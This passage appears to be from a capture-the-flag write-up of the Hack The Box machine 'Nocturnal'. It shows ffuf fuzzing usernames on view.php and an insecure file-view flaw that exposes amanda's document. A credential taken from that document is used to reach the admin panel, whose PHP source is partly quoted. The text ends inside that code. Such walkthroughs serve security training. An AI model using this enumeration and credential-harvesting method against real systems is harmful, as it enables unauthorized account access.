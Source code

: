 I think I might be doing something wrong. Logged out and back in and used a new session ID.

```
________________________________________________

 :: Method           : GET
 :: URL              : http://nocturnal.htb/view.php?username=FUZZ&file=epic.doc
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists-master/Usernames/Names/names.txt
 :: Header           : Cookie: PHPSESSID=54morik5betovda2o9300e5t6g
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 2985
________________________________________________

admin                   [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 12ms]
amanda                  [Status: 200, Size: 3113, Words: 1175, Lines: 129, Duration: 24ms]
tobias                  [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 20ms]
:: Progress: [10713/10713] :: Job [1/1] :: 192 req/sec :: Duration: [0:01:00] :: Errors: 0 ::
```

[`http://nocturnal.htb/view.php?username=amanda&file=epic.doc`](http://nocturnal.htb/view.php?username=amanda&file=epic.doc)

![](https://res.cloudinary.com/djo6idowf/image/upload/v1751662610/image_vfuhin.png)

`admin` and `tobias` don’t have any files but `amanda` does.

![](https://res.cloudinary.com/djo6idowf/image/upload/v1751664680/image_eqf2sc.png)

`amanda:arHkG7HAI68X8s1J` - now we have a login. And it’s been set for all services, so `ssh` ? Nope doesn’t like it. We can try it on the website instead.

![](https://res.cloudinary.com/djo6idowf/image/upload/v1751662612/image_h3roqf.png)

![](https://res.cloudinary.com/djo6idowf/image/upload/v1751662617/image_s9axga.png)

[`http://nocturnal.htb/admin.php`](http://nocturnal.htb/admin.php)

```php
<?php
session_start();

if (!isset($_SESSION['user_id']) || ($_SESSION['username'] !== 'admin' && $_SESSION['username'] !== 'amanda')) {
    header('Location: login.php');
    exit();
}

function sanitizeFilePath($filePath) {
    return basename($filePath); // Only gets the base name of the file
}

// List only PHP files in a directory
function listPhpFiles($dir) {
    $files = array_diff(scandir($dir), ['.', '..']);
    echo "<ul class='file-list'>";
    foreach ($files as $file) {
        $sanitizedFile = sanitizeFilePath($file);
        if (is_dir($dir . '/' . $sanitizedFile)) {
            // Recursively call to list files inside directories
            echo "<li class='folder'>📁 <strong>" . htmlspecialchars($sanitizedFile) . "</strong>";
            echo "<ul>";
            listPhpFiles($dir . '/' . $sanitizedFile);
```